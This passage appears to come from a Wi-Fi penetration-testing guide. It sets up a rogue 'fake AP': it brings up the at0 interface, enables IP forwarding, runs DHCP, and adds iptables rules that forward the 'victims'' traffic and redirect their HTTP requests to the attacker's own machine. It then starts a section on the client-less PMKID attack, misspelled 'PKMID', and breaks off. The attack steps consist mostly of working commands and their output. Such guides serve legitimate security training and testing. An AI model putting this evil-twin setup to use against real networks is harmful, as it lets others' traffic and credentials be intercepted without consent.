 Onced launched our new fake AP, we need to add a new network interface.

```
ifconfig at0 192.168.1.129 netmask 255.255.255.128
route add -net 192.168.1.128 netmask 255.255.255.128 gw 192.168.1.129

echo 1 > /proc/sys/net/ipv4/ip_forward

ifconfig at0

at0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.129  netmask 255.255.255.128  broadcast 192.168.1.255
        inet6 fe80::e670:b8ff:fed3:935c  prefixlen 64  scopeid 0x20<link>
        ether e4:70:b8:d3:93:5c  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 57  bytes 8828 (8.6 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

#### Configuring IP tables

The idea is to redirect the traffic coming from victims from at0 to eth0 in order to give them connection to internet.

```
iptables --flush
iptables --table nat --flush
iptables --delete-chain
iptables --table nat --delete-chain

iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
iptables --append FORWARD --in-interface at0 -j ACCEPT
iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination $(hostname -I | awk '{print $1}'):80
iptables -t nat -A POSTROUTING -j MASQUERADE
```

#### Syncronize

Finally the last step is syncronize our rules to the fake AP.

```
dhcpd -cf /etc/dhcpd.conf -pf /var/run/dhcp.pid at0
```

## Attacks without Clients

In this section we are not going to capture any type of handshake to obtain the hash or key. We are goin to attack the network in a client-less mode.

### PKMID Attack

This attack allows us to break the technology using Pairwise Master Key Identifier (PKMID) which is a characteristic available in a lot of devices.

